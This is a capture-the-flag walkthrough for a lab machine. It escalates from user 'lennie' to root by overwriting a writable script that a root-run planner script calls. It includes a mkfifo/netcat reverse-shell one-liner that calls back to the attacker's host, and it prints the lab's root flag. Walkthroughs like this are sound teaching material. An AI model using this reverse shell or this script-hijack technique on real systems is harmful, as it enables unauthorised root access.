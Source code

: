 # Root Flag

Earlier, it didn't seem so easy to escalate privileges. But now that we are `lennie`, we can see what we can do.

Looking at what `lennie` has in their home directory:

```bash
lennie@startup:~$ ls -la
total 20
drwx------ 4 lennie lennie 4096 Nov 12  2020 .
drwxr-xr-x 3 root   root   4096 Nov 12  2020 ..
drwxr-xr-x 2 lennie lennie 4096 Nov 12  2020 Documents
drwxr-xr-x 2 root   root   4096 Nov 12  2020 scripts
-rw-r--r-- 1 lennie lennie   38 Nov 12  2020 user.txt
```

Scripts seem interesting.

```bash
lennie@startup:~$ cd scripts/
lennie@startup:~/scripts$ ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt planner.sh

#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

`startup_list.txt` is empty, but `planner.sh` seems to be a script that runs `/etc/print.sh`. Let's see what's permissions they have for `/etc/print.sh`.

```bash
lennie@startup:~$ ls -la  /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

Hmm... `lennie` owns the file, and has full permissions. We can try to edit the file to get a reverse shell.

```bash
lennie@startup:~$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc <host_ip> 2345 >/tmp/f" > /etc/print.sh
```

I then set up a netcat listener on my machine to listen for port 2345 that I set in the script. I then got a connection!!

```bash
┌──(kairos㉿kali)-[~]
└─$ nc -lvnp 2345
listening on [any] 2345 ...
connect to [<host_ip>] from (UNKNOWN) [10.10.242.186] 36520
sh: 0: can't access tty; job control turned off
# ls
root.txt
# cat root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```
